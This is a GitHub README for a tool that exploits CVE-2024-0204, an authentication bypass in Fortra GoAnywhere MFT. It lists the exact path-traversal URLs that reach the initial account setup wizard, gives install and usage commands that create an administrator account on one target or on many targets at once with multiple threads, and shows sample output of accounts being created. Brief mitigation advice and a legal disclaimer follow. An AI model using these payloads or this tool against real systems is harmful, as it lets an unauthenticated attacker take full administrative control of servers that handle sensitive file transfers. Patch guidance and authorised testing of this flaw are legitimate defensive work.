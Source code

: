 # CVE-2024-0204: Fortra GoAnywhere MFT Authentication Bypass Exploit

## Description

This exploit demonstrates a critical authentication bypass vulnerability in Fortra GoAnywhere MFT versions prior to 7.4.1. The vulnerability allows an unauthenticated attacker to create an administrator account by exploiting a path traversal vulnerability to access the initial account setup wizard.

CVE-2024-0204 was discovered in January 2024 and affects all GoAnywhere MFT versions prior to 7.4.1. This vulnerability has been rated as Critical (CVSS 9.8) due to its ease of exploitation and the complete administrative access it provides to vulnerable instances.

## Technical Details

The vulnerability exists due to improper access control on the initial account setup wizard. By using path traversal techniques, an attacker can access the setup wizard and create an administrator account without any authentication. The exploit implements two different path traversal methods to maximize success across various server configurations:

1. Primary method: `/goanywhere/images/..;/wizard/InitialAccountSetup.xhtml`
2. Secondary method: `/goanywhere/..;/wizard/InitialAccountSetup.xhtml`

If the first method fails, the exploit automatically tries the second method. This dual approach increases the likelihood of successful exploitation, as different server configurations may handle path traversal differently.

## Features

- Multiple path traversal techniques to increase success rate
- Multi-target scanning support
- Colored and user-friendly output
- Multi-threading for faster scanning
- Comprehensive result summary

## Installation

```bash
# Clone the repository
git clone https://github.com/ibrahimsql/CVE-2024-0204.git
cd CVE-2024-0204

# Install dependencies
pip install -r requirements.txt
```

## Usage

### Single Target Scanning

```bash
python CVE-2024-0204.py -t example.com -u admin -p password123
```

### Multi-Target Scanning from File

```bash
python CVE-2024-0204.py -f targets.txt -u admin -p password123 --threads 20
```

### Command Line Arguments

```
-t, --target       Target host to check (e.g., 'example.com' or '192.168.1.1')
-f, --file         File containing targets, one per line
-u, --username     Username for the admin account to create
-p, --password     Password for the admin account to create
--timeout          Connection timeout in seconds (default: 10)
--threads          Number of concurrent threads for scanning (default: 10)
```

## Example Output

```
[*] Checking single target: vulnerable.example.com
[+] vulnerable.example.com - Potentially vulnerable via /goanywhere/images/..;/wizard/InitialAccountSetup.xhtml!
[+] vulnerable.example.com - Admin account created successfully via /goanywhere/images/..;/wizard/InitialAccountSetup.xhtml! Username: admin, Password: password123

[*] Scan Summary:
[+] Vulnerable targets: 1
[-] Non-vulnerable targets: 0
[!] Error targets: 0

[+] Vulnerable targets:
  - vulnerable.example.com
```

## Mitigation

To mitigate this vulnerability, system administrators should:

1. Upgrade to GoAnywhere MFT version 7.4.1 or higher
2. Apply the workaround provided by Fortra by deleting or emptying the InitialAccountSetup.xhtml file
3. Restrict access to the administrative interfaces at the network level

## Warning

This tool is intended for ethical hacking, penetration testing, and security research purposes only. Using this tool to access unauthorized systems may be illegal. Always work with written permission from the target system's owner. The author is not responsible for any misuse of this tool.

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Author

**@ibrahimsql** - [GitHub](https://github.com/ibrahimsql)

## References

1. [Rapid7 Blog: CVE-2024-0204](https://old.rapid7.com/blog/post/2024/01/23/etr-cve-2024-0204-critical-authentication-bypass-in-fortra-goanywhere-mft/)
2. [Tenable Blog: CVE-2024-0204](https://www.tenable.com/blog/cve-2024-0204-fortra-goanywhere-mft-authentication-bypass-vulnerability)
3. [Kroll Security Advisory](https://www.kroll.com/en/insights/publications/cyber/authentication-bypass-in-fortra-goanywhere-mft)
4. [Fortra Security Advisory](https://www.fortra.com/security/advisory/fi-2024-001)
5. [NVD - CVE-2024-0204](https://nvd.nist.gov/vuln/detail/cve-2024-0204)
